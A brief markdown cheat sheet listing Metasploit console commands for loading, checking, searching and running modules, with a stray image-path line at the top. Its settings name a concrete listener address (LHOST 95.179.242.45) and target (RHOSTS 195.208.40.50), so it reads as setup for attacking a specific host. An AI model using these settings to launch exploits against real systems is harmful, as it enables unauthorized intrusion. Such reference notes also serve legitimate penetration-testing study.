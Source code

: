 ### Metasploit
``` msfconsole ```

``` use <module> ```

``` check <ip> after module in use checks if exp ```

``` info after module in use ```

``` search <reg_module_name_expression> ```

``` set ForceExploit false ```

``` set AutoCheck false ```

``` set LHOST 95.179.242.45 ```

``` set RHOSTS 195.208.40.50 ```

``` set SRVPORT 4899 ```

``` run  ```
